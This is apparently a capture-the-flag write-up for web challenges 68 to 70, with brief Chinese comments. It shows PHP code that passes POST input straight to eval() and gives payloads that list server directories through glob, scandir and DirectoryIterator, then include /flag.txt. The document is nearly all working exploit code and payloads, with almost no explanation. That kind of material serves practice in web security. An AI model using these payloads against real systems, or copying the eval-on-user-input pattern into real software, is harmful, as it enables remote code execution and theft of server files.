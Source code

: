 #### web68

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=include("/flag.txt");
```

------

#### web69

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

读取目录

```
print_r(glob("*")); // 列当前目录
print_r(glob("/*")); // 列根目录
print_r(scandir("."));
print_r(scandir("/"));
$d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
$d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
$a=glob("/*");foreach($a as $value){echo $value."   ";}
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=include("/flag.txt");
```

----

#### web70

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=include("/flag.txt");
```

---